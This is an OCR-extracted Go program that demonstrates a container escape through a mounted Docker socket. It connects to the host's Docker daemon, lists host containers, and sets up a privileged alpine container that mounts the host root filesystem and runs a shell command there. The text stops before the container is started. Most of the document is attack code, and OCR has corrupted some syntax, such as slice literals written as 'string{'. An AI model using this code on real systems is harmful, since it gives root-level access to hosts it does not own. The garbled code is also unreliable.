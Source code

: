 ```Go

// This code, if run inside a container with docker.sock mounted,
// could be used to interact with the host's Docker daemon.
func main() {
	fmt.Println("Attempting to connect to Docker daemon via mounted socket...")
	ctx := context.Background()
	// The Docker client by default attempts to connect to /var/run/docker.sock on Linux
	// if DOCKER_HOST environment variable is not set.
	cli, err := client.NewClientWithOpts(client.FromEnv, client.WithAPIVersionNegotiation())
	if err!= nil {
		fmt.Fprintf(os.Stderr, "Error creating Docker client: %v\n", err)
		os.Exit(1)
	}
	defer cli.Close()

	fmt.Println("Successfully connected to Docker daemon.")
	fmt.Println("Attempting to list containers on the HOST...")

	containers, err := cli.ContainerList(ctx, container.ListOptions{All: true})
	if err!= nil {
		fmt.Fprintf(os.Stderr, "Error listing containers: %v\n", err)
		os.Exit(1)
	}

	if len(containers) == 0 {
		fmt.Println("No containers found on the host.")
	} else {
		fmt.Println("Host Containers:")
		for _, c := range containers {
			fmt.Printf("  ID: %s, Image: %s, Status: %s\n", c.ID[:12], c.Image, c.Status)
		}
	}

	// Illustrative malicious action: Attempting to create and start a new privileged container
	// that mounts the host's root filesystem. This is a common container escape technique.
	fmt.Println("\nIllustrative: Attempting to create a privileged container to access host root...")
	imageName := "alpine" // A small, common image

	// Ensure the image is available locally, pull if not.
	out, err := cli.ImagePull(ctx, imageName, image.PullOptions{})
	if err!= nil {
		fmt.Fprintf(os.Stderr, "Error pulling image %s: %v\n", imageName, err)
		// Continue attempt, maybe image is local
	}
	if out!= nil {
		io.Copy(os.Stdout, out) // Show pull progress
		out.Close()
	}
	
	hostConfig := &container.HostConfig{
		Privileged: true, // Request privileged mode
		Binds:     string{"/:/hostroot"}, // Mount host's root to /hostroot in container
	}
	
	containerConfig := &container.Config{
		Image:      imageName,
		Cmd:       string{"/bin/sh", "-c", "echo 'Accessed host root. Listing /hostroot:'; ls /hostroot"}, // Command to run
		Tty:        false,
		WorkingDir: "/hostroot", // Set working directory to the mounted host root
	}

```